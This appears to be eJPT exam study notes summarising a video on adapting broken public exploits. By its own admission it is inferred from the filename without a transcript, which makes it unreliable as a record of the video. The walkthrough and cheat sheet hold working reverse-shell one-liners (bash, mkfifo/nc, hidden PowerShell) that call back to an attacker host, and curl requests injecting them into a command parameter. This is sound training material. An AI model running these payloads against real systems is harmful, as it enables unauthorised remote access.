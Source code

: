 # 01 - Fixing Exploits

Note: The transcript for this video is not provided. The following summary is inferred conservatively from the filename and typical eJPT workflows around adapting public PoCs (ExploitDB/GitHub) so they actually work in lab targets.

## What the video covers (Introduction / big picture)
- How to take a public exploit/PoC that “doesn’t work” out of the box and make it work against your target.
- Common fixes: Python2→Python3 updates, missing dependencies, wrong endpoints/paths, HTTP header/cookie/CSRF handling, SSL/TLS issues, payload tuning (reverse shells), and minor logic/typing bugs.
- A repeatable workflow: verify the vuln, fetch the PoC, normalize it to your environment, test requests manually (curl/Burp), instrument the script for visibility, run with a listener, iterate, and document changes.

## Flow (ordered)
1. Verify target and version
   - Confirm the service/version is actually vulnerable (banner/enumeration/service docs).
2. Acquire the PoC
   - Use searchsploit or the original repo; read the exploit notes/usage carefully.
3. Normalize the environment
   - Convert Python2 PoCs; install required modules; fix line endings; make it executable.
4. Map and customize variables
   - Set RHOST/RPORT/LHOST/LPORT, base URL, endpoint paths, creds, cookies, CSRF, timeouts, SSL.
5. Choose a stable payload
   - Replace fragile commands (nc -e) with robust reverse shells (bash/PowerShell).
6. Dry run the request
   - Recreate the exploit requests with curl/Burp; confirm expected responses.
7. Add visibility
   - Print status codes, errors, cookies, and key values; enable verbose/logging.
8. Run with a listener
   - Start rlwrap/nc; execute the PoC; verify callback; adjust if needed.
9. Iterate and harden
   - Handle redirects, proxies, delays, bytes/str encoding; ensure idempotency/reliability.
10. Document changes
   - Save a patched copy; note exact flags/headers/paths for later use.

## Tools highlighted
- searchsploit (ExploitDB): find/read/mirror exploits
- Python 3, 2to3, pip: language compatibility and dependencies
- curl and Burp Suite: replicate and debug HTTP requests
- netcat (nc) / rlwrap / socat: listeners and shell stabilization
- msfvenom (optional): generate staged/unstaged payloads
- dos2unix: fix line endings on PoCs
- sed/grep: quick in-place tweaks and code review
- Paths: /usr/share/exploitdb/exploits, /usr/share/exploitdb/files_exploits.csv

## Typical command walkthrough (detailed, copy-paste friendly)
Only run against systems you own or have explicit permission to test.

- Find and fetch a PoC
```
searchsploit <product> <version>
searchsploit -x <EDB-ID>              # view exploit details inline
searchsploit -m <EDB-ID>              # mirror exploit locally
# or copy from GitHub to the working dir
```

- Normalize files and Python environment
```
dos2unix exploit.py
2to3 -w exploit.py                     # convert Python2 PoC to Python3
python3 -m venv venv && source venv/bin/activate
pip install --upgrade pip setuptools wheel
pip install requests urllib3           # common web PoC deps
chmod +x exploit.py
```

- Quick Python3 fixes you’ll often need (if errors appear)
  - raw_input -> input
  - print "x" -> print("x")
  - bytes/str: sock.send(payload.encode()) or .decode() as needed
  - urllib2 -> requests; add verify=False and timeouts
  - Add argparse for clean RHOST/LHOST inputs if missing

- Prepare a listener and payload
```
export LHOST=ATTACKER_IP
export LPORT=4444
rlwrap nc -lvnp $LPORT
```

- Common reverse shell one-liners to drop into PoCs
  - Linux bash:
```
bash -c 'bash -i >& /dev/tcp/'"$LHOST"'/'"$LPORT"' 0>&1'
```
  - Linux mkfifo (if bash -i blocked):
```
mkfifo /tmp/f; cat /tmp/f|/bin/sh -i 2>&1|nc '"$LHOST"' '"$LPORT"' >/tmp/f
```
  - Windows PowerShell:
```
powershell -nop -w hidden -c "$client = New-Object System.Net.Sockets.TCPClient('$LHOST',$LPORT);$stream = $client.GetStream();[byte[]]$bytes=0..65535|%{0};while(($i=$stream.Read($bytes,0,$bytes.Length)) -ne 0){$data=(New-Object Text.ASCIIEncoding).GetString($bytes,0,$i);$sendback=(iex $data 2>&1 | Out-String );$sendback2=$sendback+'PS '+(pwd).Path+'> ';$sendbyte=([Text.Encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

- Dry run the HTTP request with curl (adjust URL/headers/body)
```
export TARGET=http://TARGET:PORT
curl -i -s -k "$TARGET/vuln/endpoint" \
  -H "User-Agent: Mozilla/5.0" \
  -H "Content-Type: application/x-www-form-urlencoded" \
  --data "param1=value&cmd=$(python3 -c 'import urllib.parse,sys;print(urllib.parse.quote(sys.argv[1]))' "bash -c 'bash -i >& /dev/tcp/$LHOST/$LPORT 0>&1'")"
```

- Add proxies and SSL tweaks (when debugging in Burp)
```
export HTTP_PROXY=http://127.0.0.1:8080
export HTTPS_PROXY=http://127.0.0.1:8080
# in Python requests: proxies={'http':'http://127.0.0.1:8080','https':'http://127.0.0.1:8080'}, verify=False
```

- Run the PoC (examples; flags vary by script)
```
python3 exploit.py --rhost TARGET --rport 80 --lhost $LHOST --lport $LPORT
# or
python3 exploit.py -u "$TARGET" -c "bash -c 'bash -i >& /dev/tcp/$LHOST/$LPORT 0>&1'"
```

- If a PoC needs compilation (local privesc, etc.)
```
gcc -o exploit exploit.c -Wall
# If 32-bit needed:
sudo apt-get install -y gcc-multilib
gcc -m32 -o exploit exploit.c
```

- Inspect responses and iterate quickly
```
# Print server response in PoC
print(resp.status_code, resp.headers.get('Set-Cookie'), resp.text[:200])
# Handle redirects in requests
requests.post(url, data=d, allow_redirects=True, verify=False, timeout=10)
```

## Practical tips
- Always read the PoC header/notes on ExploitDB; many list required paths, creds, or version caveats.
- Don’t trust defaults: update base paths (/app/, /admin/), endpoints, and parameters to match your target.
- SSL/TLS breaks many PoCs: add verify=False and timeouts; try -k with curl; account for redirects (301/302).
- Replicate the exploit manually first with curl/Burp to prove the request is valid before automating.
- Replace fragile payloads (nc -e) with portable shells (bash mkfifo or PowerShell).
- If a PoC needs a token/cookie, first GET the page to parse CSRF/cookies, then POST with them using a session.
- Add simple logging/prints to see status codes, redirect chains, and bodies when debugging.
- Never run untrusted PoCs as root; use a venv and non-privileged user; review code briefly for rm -rf or similar.
- Keep a patched copy with a note of exactly what you changed (use git or suffix “_fixed.py”).

## Minimal cheat sheet (one-screen flow)
```
# 1) Find and fetch PoC
searchsploit <product> <version>
searchsploit -m <EDB-ID>

# 2) Normalize
dos2unix exploit.py
2to3 -w exploit.py
python3 -m venv venv && source venv/bin/activate
pip install requests urllib3

# 3) Prep listener
export LHOST=ATTACKER_IP; export LPORT=4444
rlwrap nc -lvnp $LPORT

# 4) Prove request manually
export TARGET=http://TARGET:PORT
curl -i -s -k "$TARGET/vuln" \
  -H "User-Agent: Mozilla/5.0" \
  --data "cmd=$(python3 -c 'import urllib.parse;print(urllib.parse.quote(\"bash -c \\\"bash -i >& /dev/tcp/'"$LHOST"'/'"$LPORT"' 0>&1\\\"\"))')"

# 5) Tweak PoC
# - Set RHOST/RPORT/LHOST/LPORT/URL
# - Add verify=False, timeouts, allow_redirects
# - Use requests.Session(), capture cookies/CSRF

# 6) Run PoC
python3 exploit.py --rhost TARGET --rport 80 --lhost $LHOST --lport $LPORT

# 7) Iterate (headers, path, payload) until shell
```

## Summary
This video’s theme is turning “broken” public PoCs into working exploits by methodically normalizing the code, matching it to the target’s real endpoints and auth/CSRF/headers, fixing Python2→3 and dependency issues, and swapping in reliable reverse-shell payloads. Validate each step with curl/Burp, add visibility in the script, run with a listener, iterate small changes, and document your patches so you can reuse them during the exam.